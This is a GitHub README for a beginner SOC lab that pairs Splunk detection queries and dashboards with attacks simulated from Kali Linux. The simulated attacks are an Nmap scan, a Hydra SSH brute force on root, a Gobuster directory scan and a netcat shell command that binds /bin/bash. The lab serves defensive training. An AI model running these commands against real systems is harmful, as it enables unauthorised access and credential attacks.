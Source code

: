 # SOC-Analyst-Lab-Real-Time-Threat-Detection-with-Splunk-Kali-Linux
# 🧪 SOC Analyst Lab: Real-Time Threat Detection with Splunk & Kali Linux

## 🧭 Introduction

This lab simulates a Security Operations Center (SOC) environment where analysts detect, investigate, and respond to real-time threats using **Splunk** and **Kali Linux**. It mimics Blue Team operations for beginners or students aiming to build hands-on detection skills.

---

## 🎯 Objectives

* Build a functional SOC lab using Splunk and Kali
* Generate and analyze suspicious events (e.g. Nmap scans, brute-force attacks)
* Develop alerting logic and dashboards in Splunk
* Simulate analyst workflows: investigation, correlation, and reporting

---

## 🛠 Lab Environment

| Component         | Role                   |
| ----------------- | ---------------------- |
| Kali Linux        | Attacker (Red Team)    |
| Splunk Free       | Log and event analysis |
| Ubuntu/Windows VM | Victim / Log Forwarder |

### Optional Tools

* `Sysmon` for Windows logging
* `UFW` or `iptables` for Linux logs
* `nginx` or test apps to simulate network traffic

---

## 🔧 Setup Steps

### 1. Install Splunk on Ubuntu VM

```bash
wget -O splunk.deb 'https://download.splunk.com/products/splunk/releases/9.0.0/linux/splunk-9.0.0-amd64.deb'
sudo dpkg -i splunk.deb
sudo /opt/splunk/bin/splunk start --accept-license
```

Create admin user and access Splunk at `http://<vm-ip>:8000`

### 2. Configure Universal Forwarder on Windows/Linux

* Download Splunk Universal Forwarder
* Install and set the receiving Splunk instance IP and port (default: 9997)
* Forward important logs: auth.log, syslog, Windows Event Logs

### 3. Enable Receiving on Splunk

* Settings > Forwarding and Receiving > Configure Receiving > Add port 9997

### 4. Add Inputs

* Settings > Data Inputs > Add new monitor: `/var/log/`, `/opt/splunkforwarder/var/log/splunk/`, etc.

---

## 🧨 Simulated Attacks (Kali Linux)

### A. Nmap Scan

```bash
nmap -sS -p 22,80,443 <target-ip>
```

* Should generate logs of port probing
* Splunk query: `index=os_logs sourcetype=auth | search "Failed password"`

### B. SSH Brute Force

```bash
hydra -l root -P rockyou.txt ssh://<target-ip>
```

* Log failed login attempts
* Create correlation search: 5+ failures in 1 minute from same IP

### C. Web Directory Scan (Gobuster)

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirb/common.txt
```

* Detect abnormal HTTP activity
* Analyze access.log for 404 and unusual hits

### D. Netcat Reverse Shell (Simulated Malicious Payload)

```bash
# Victim (listener)
nc -lvnp 4444

# Attacker
nc <target-ip> 4444 -e /bin/bash
```

* Check for unexpected connections in netstat logs

---

## 🔎 Splunk Use Cases & Queries

### 📈 Use Case: Detect SSH Brute Force

```spl
index=linux_logs sourcetype=auth | stats count by src_ip, user | where count > 5
```

### 📈 Use Case: Detect Port Scanning

```spl
index=network sourcetype=ufw | stats count by src_ip, dest_port | where count > 10
```

### 📈 Use Case: Detect HTTP Recon

```spl
index=web_logs sourcetype=access_combined | stats count by uri_path, status | where status=404
```

### 📊 Dashboard Ideas

* Top 10 Source IPs
* Failed vs Successful Logins
* Unusual HTTP Paths
* Brute Force Timeline

---

## 🧑‍💻 Analyst Workflow

1. Monitor Splunk Dashboards
2. Detect anomalies (login failures, abnormal IPs)
3. Drill down: who, what, where?
4. Correlate events across sources
5. Escalate or close incident
6. Document IOCs and response

---

## 🧪 Project Outcomes

* Hands-on experience with log ingestion, detection logic, and threat simulation
* Practice investigating real attack patterns
* Skill development for SOC, SIEM, and Blue Team roles

---




